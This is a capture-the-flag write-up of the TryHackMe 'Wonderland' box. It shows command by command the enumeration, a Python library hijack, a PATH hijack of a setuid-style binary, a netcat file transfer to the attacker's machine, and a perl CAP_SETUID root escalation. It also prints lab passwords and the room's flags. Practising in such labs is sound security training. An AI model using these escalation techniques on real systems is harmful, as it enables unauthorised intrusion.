 ```yaml
---
title: TryHackMe - Wonderland
description: My writeup on Wonderland box.
categories:
 - tryhackme
tags: tryhackme gobuster python hijacking PATH capabilities perl
---
```


![](https://i.imgur.com/851RMUk.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Wonderland**  |
| Difficulty :  | **Medium**             |
| Play :    | [Wonderland](https://tryhackme.com/room/wonderland){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This is a box that tought me some new things, i really enjoyed pwning it! Getting shell is the easy part, then we have to deal with multiple privilege escalations. The first 2 are about hijacking and then last one is about capabilities. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.210.206
$ nmap -sC -sV -oN nmap/wonderland.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 23:05 EET
Nmap scan report for 10.10.210.206 (10.10.210.206)
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
```

Once we visit the web page we see a message `Follow the White Rabbit.`. Checking the source code nothing interesting, let's fire up a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster.txt  
/index.html (Status: 301)
/img (Status: 301)
/r (Status: 301)
```

Visiting the `/r` directory we see a message `Keep Going.`, then i guessed the whole path. Before the message said `Follow the White Rabbit.` So:

```
http://10.10.210.206/r/
http://10.10.210.206/r/a/
http://10.10.210.206/r/a/b/
http://10.10.210.206/r/a/b/b/
http://10.10.210.206/r/a/b/b/i/
http://10.10.210.206/r/a/b/b/i/t
```

## Shell as alice

Here we go, checking the source code i found some credentials `alice:HowDothTheLittleCrocodileImproveHisShiningTail`. We can use them with SSH.

```
$ ssh alice@$ip
alice@10.10.210.206's password:

alice@wonderland:~$ whoami;id
alice
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

## Shell as rabbit

While doing my manual enumeration for privesc i found on `sudo -l` that we can run a python file as user rabbit.

```
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Sadly we can't edit it.

```
alice@wonderland:~$ ls -la walrus_and_the_carpenter.py
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

Here i stuck for a long time, source code has nothing interesting only a poem. I noticed the `random` module so i googled `python random module privilege escalation` and i found out the solution this p privesc is about python library hijacking.

Running this command:

```
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

Show us the list of directories that python looks in when importing modules. The first one `''` is the current directory.

So we will create a new file in the same directory as the `walrus_and_the_carpenter.py`, named `random.py` because it imports `random`. So the next time we run the file will load our version of the random module, because it appears first in the search paths.

```
alice@wonderland:~$ touch random.py
alice@wonderland:~$ printf "import os\nos.system('/bin/bash')" >> random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
[sudo] password for alice:
rabbit@wonderland:~$ whoami;id
rabbit
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

## Shell as hatter

Moving to rabbit directory, i see a binary `teaParty` when we run it just says a message:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 04 Jan 2021 22:38:19 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Let's move it to our machine to analyze it, we can do that using netcat!

On our box we execute this -> `nc -l -p 5555 > teaParty`

On target box we send the file -> `nc -w 3 $your_tun0_ip 5555 < teaParty`

Running `strings` on it we can see that it executes `date`:

```
$ strings teaParty | grep date
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

We can see it calls date without specifying the path. This means we can hijack the PATH and execute our date. We will make a `date` file with `/bin/bash` in and then we will change the PATH to look in our directory first, so it will execute our `date` file first.

```
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > date
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by
hatter@wonderland:/home/rabbit$ whoami;id
hatter
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

Checking hatter's directory i found his password, so we can login using SSH as hatter.

```
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

```
$ ssh hatter@$ip
hatter@10.10.85.152's password:

hatter@wonderland:~$ whoami;id
hatter
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

## Shell as root

This final privesc is about capabilities. Capabilities are similar to SUID but they limit user’s permissions etc.

Let's scan the system for capabilities.

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

We can see `perl` has the `CAP_SETUID` capability this mean we can change the UID. [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/#capabilities){:target="_blank"} has the answer.

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami;id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Let's read the flags. (They're reversed LOL)

```
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
